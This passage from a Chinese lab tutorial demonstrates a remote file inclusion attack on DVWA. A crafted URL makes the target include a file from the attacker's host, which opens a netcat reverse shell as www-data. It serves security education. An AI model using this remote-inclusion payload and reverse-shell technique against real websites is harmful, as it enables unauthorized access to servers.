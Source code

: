 我们会看到终端中有 `listening on [any] 1111` 的提示，若说明我们正在监听这个端口，只要有请求进来我们就会连接上

然后我们在 firefox 中访问这样的 URL：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=http://192.168.122.101/test.txt
```

页面上我们感觉似乎没有什么变化，但是返回我们的终端可以看到：

![show-reverse-shell](https://doc.shiyanlou.com/document-uid113508labid2426timestamp1482492634639.png/wm)

我们已经连接上了，我们可以直接输入命令，这并不是卡死了：

![show-command](https://doc.shiyanlou.com/document-uid113508labid2426timestamp1482492650839.png/wm)

pwd、ls、vim 等等大部分命令基本都可以用了。

我们就像 ssh 一样登陆上了目标主机，只是我们登陆的账户是 www-data，权限不是太高，但这样来说已经可以做很多事情了。

这就是远程文件包含漏洞所带来的危害性。

在攻击的过程中我们也发现了这样的漏洞几率很小，首先对方会使用 include 来包含文件，并且过滤的条件很宽松，同时对方还打开不安全的配置选项，这样才会使得我们攻击攻击成功。

所以使用到远程文件包含的漏洞，病逝我们能够利用上的几率非常的小，但是我们也得学习，知道有这种攻击方式的存在，这样才能发现这样的漏洞。

## 8. 总结

本节实验中我们学习了以下内容，任何不清楚的地方欢迎到[实验楼问答](https://www.shiyanlou.com/questions)与我们交流：

- 远程文件包含简介
- 远程文件包含尝试
- 远程文件包含进阶

请务必保证自己能够动手完成整个实验，只看文字很简单，真正操作的时候会遇到各种各样的问题，解决问题的过程才是收获的过程。

## 9. 作业

1. 查看 medium 的防范措施，并尝试是否能够执行，同时尝试上节课所讲过绕过的方法。